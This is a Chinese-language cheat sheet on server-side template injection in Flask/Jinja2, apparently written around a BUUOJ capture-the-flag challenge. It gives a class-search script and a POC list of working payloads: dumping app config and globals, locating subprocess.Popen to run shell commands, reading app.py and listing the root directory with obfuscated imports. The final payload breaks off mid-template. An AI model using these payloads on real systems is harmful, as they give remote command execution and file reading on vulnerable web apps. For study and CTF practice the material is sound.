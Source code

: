 ##### 注入思路

随便找一个内置类对象用`__class__`拿到他所对应的类，用`__bases__`拿到基类（<class ‘object’>），用`__subclasses__()`拿到子类列表，在子类列表中直接寻找可以利用的类getshell

接下来只要找到能够利用的类（方法、函数）就好了：

可以使用如下脚本帮助查找方法：

```python
from flask import Flask,request
from jinja2 import Template
search = 'eval'   
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```

##### POC

```python
{{2*3}}
{{7+8}}
{{7*7}} #测试是否存在漏洞
{{config}} #查看所有app.config内容
{{url_for.__globals__}} #以字典类型返回当前位置的全部全局变量
{{url_for.__globals__['current_app'].config}}

# 爆出所有的类
{{''.__class__.__mro__[2].__subclasses__()}}

# 查询subprocess.Popen
    import requests
    import re
    import html

    url = "http://f2c96b25-5710-4057-b5e2-12e39acf4921.node3.buuoj.cn/?search=		{{%27%27.__class__.__mro__[2].__subclasses__()}}"
    s = requests.get(url).text
    result = re.findall("\<h2\>You searched for:\<\/h2\>\\n  \<h3\>\[(.*?)\<\/h3\>",s,re.S)
    #反转义字符串
    result = html.unescape(result[0])[:-1]
    result = result.split(', ')
    print(result.index("<class 'subprocess.Popen'>"))
    
# 使用索引替换258
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

# 读取文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}

# 列目录
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__']['__im'+'port__']('o'+'s').listdir('/')}}{% endif %}{% endfor %}

# python3 读取文件
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='file' %}
{{"find!"}}
```
